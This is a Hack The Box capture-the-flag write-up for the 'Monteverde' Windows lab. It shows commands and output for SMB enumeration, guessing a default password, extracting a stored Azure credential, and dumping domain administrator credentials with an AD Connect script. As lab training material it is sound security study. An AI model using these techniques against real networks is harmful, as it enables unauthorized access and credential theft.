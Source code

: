 ```yaml
---
title: Monteverde
author: fieldraccoon
date: 2020-06-21 
categories: [hack-the-box, windows]
tags: [hack-the-box, smb, windows-exploits, medium]
math: true
---
```

# Monteverde

Monteverde was a medium windows box that involved many common windows exploitation techniques and didnt require much to get both the user and root flags

>Skills onvolved in this box:
- enumeration
- smbclient
- CrackMapExec & enum4linux
- windows privilage escalation

# USER

>Nmap
First we start off with an nmap scan and it reveals many ports open but the ones we are interested in are port 139/445 allowing access to smb.
```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-14 07:23:00Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
```

We decide to enumerate further with enum4linux and get a list of users on the box.
```bash 
./enum4linux.pl -a 10.10.10.172
```
 reveals the users:
```bash
MEGABANK\Administrator
MEGABANK\krbtgt
MEGABANK\AAD_987d7f2f57d2
MEGABANK\mhope
MEGABANK\SABatchJobs
MEGABANK\svc-ata
MEGABANK\svc-bexec
MEGABANK\svc-netapp
MEGABANK\dgalanos
MEGABANK\roleary
MEGABANK\smorgan
```
The main user that sticks out here is SABatchJobs.
We then try to logon to the box with smbclient:
`smbclient -L 10.10.10.172 -U SABatchJobs` We try a few guesssing passwords and we manage to login with `SABatchJobs:SABatchJobs`
```bash
kali@kali:~$ smbclient -L 10.10.10.172 -U SABatchJobs
Enter WORKGROUP\SABatchJobs's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        azure_uploads   Disk      
        C$              Disk      Default share
        E$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        users$          Disk      
SMB1 disabled -- no workgroup available
```
We spot the users$ file lets take a look at that:
```bash
kali@kali:~$ smbclient //10.10.10.172/users$ -U SABatchJobs
Enter WORKGROUP\SABatchJobs's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020

                524031 blocks of size 4096. 519955 blocks available
smb: \> 
```
We take a look around the users but the only usefull thing we can find is in the dir `mhope`

We find a file called `azure.xml` and we donwload it to our box, we can jsut use `get` or for me i got a timeout error so i mounted it to my box using:
```bash
sudo mount -t cifs //10.10.10.172/users$ /mnt/monteverde -o user=SABatchJobs
```
>azure.xml:
```xml
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>

```
We find the password `4n0therD4y@n0th3r$` lets use this to try login with evil-winrm, we will use the user mhope as that is the user direcotry where we found the xml file
```bash
kali@kali:~$ evil-winrm -u mhope -p 4n0therD4y@n0th3r$ -i 10.10.10.172

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents> cd ..
*Evil-WinRM* PS C:\Users\mhope> cd Desktop
*Evil-WinRM* PS C:\Users\mhope\Desktop> ls


    Directory: C:\Users\mhope\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 user.txt


*Evil-WinRM* PS C:\Users\mhope\Desktop> type user.txt
4961976bd7d8f4eeb2ce3705e2f212f2
*Evil-WinRM* PS C:\Users\mhope\Desktop>
```
There we go and we get the user flag!

# ROOT

We start by checking permissions for our user `whoami /groups` brings back some interseting results:
```bash
*Evil-WinRM* PS C:\Users\mhope\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
MEGABANK\Azure Admins                       Group            S-1-5-21-391775091-850290835-3566037492-2601 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group

```
`MEGABANK\Azure Admins` seems to be usefull somehow, after a google search we find a priv esc tool called `AzureADConnect` which spits out the admin creds for the box, so we try and utilise this. https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1 <-- for the tool 

```bash
*Evil-WinRM* PS C:\Users\mhope\Desktop> import module ./AzureADConnect.ps1 <-- from our box
*Evil-WinRM* PS C:\Users\mhope\Desktop> AzureADConnect -server 127.0.0.1 -db ADSync
[+] Domain:  MEGABANK.LOCAL
[+] Username: Administrator
[+] Password: d0m@in4dminyeah!
```
Great now we have creds for the administrator lets log in and grab the root flag!
```bash
kali@kali:~/boxes/monteverde$ evil-winrm -u Administrator -p d0m@in4dminyeah! -i 10.10.10.172

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint


*Evil-WinRM* PS C:\Users\Administrator\Documents> 
cd*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
12909612d25c8dcf6e5a07d1a804a0bc
```
Thanks for reading hope you enjoyed!


